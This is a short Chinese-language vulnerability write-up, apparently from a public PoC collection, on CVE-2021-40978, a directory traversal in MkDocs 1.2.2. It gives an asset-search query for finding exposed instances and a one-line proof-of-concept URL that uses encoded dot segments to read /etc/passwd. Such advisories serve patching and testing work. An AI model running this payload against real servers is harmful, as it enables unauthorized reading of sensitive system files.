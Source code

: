 # 

# MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## 网络测绘

```
title="My Docs"
```

## 漏洞复现

主页面

![image-20220524152422662](./images/202205241524715.png)

验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220524152444205](./images/202205241524264.png)
